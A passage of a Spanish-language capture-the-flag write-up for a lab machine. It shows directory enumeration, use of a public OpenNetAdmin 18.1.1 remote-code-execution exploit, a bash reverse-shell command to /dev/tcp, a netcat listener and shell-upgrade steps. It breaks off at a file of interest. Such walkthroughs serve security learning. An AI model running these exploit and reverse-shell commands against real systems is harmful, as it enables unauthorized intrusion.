 ```
[+] Timeout:                 10s
===============================================================
2023/03/01 23:17:14 Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 274]
/index.html           (Status: 200) [Size: 30]
/reports              (Status: 401) [Size: 456]
/robots.txt           (Status: 200) [Size: 29]
/.html                (Status: 403) [Size: 274]
/server-status        (Status: 403) [Size: 274]
Progress: 651555 / 661683 (98.47%)
===============================================================
2023/03/01 23:17:47 Finished
===============================================================
```
Lo que encontre dentro de los directorios fue lo siguiente:
#####/robots
```
User-agent: *
Disallow: /ona
```
#####/reports
sign in / log in

#####/ona
Encontramos que la version que usan es © 2023 OpenNetAdmin - v18.1.1
De tal forma que me dispuse a buscar un exploit para el ONA

https://github.com/amriunix/ona-rce/blob/master/ona-rce.py

Lo copie, lo ejecute y me hice una reverse shell

```
python3 exploit.py exploit http://10.0.2.20/ona/
[*] OpenNetAdmin 18.1.1 - Remote Code Execution
[+] Connecting !
[-] Warning: Error while connecting o the remote target
sh$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
sh$ bash -c 'bash -i >& /dev/tcp/10.0.2.4/443 0>&1'
```
Me puse en escucha y procedi a mejorar la shell a una shell inteligente
```
❯ nc -lvnp 443     
listening on [any] 443 ...
connect to [10.0.2.4] from (UNKNOWN) [10.0.2.20] 59888

www-data@five86-1:/opt/ona/www$ script /dev/null -c bash
script /dev/null -c bash
Script started, file is /dev/null

www-data@five86-1:/opt/ona/www$ ^Z
zsh: suspended  nc -lvnp 443
                                                                                                               
~/Documents/five86                                                          
❯ stty raw -echo;fg
[1]  + continued  nc -lvnp 443

www-data@five86-1:/opt/ona/www$ export TERM=xterm SHELL=bash 
```
Ya teniendo la shell mejorada procedo a ver los archivos y existe un .htaccess.example el cual dice algo interesante
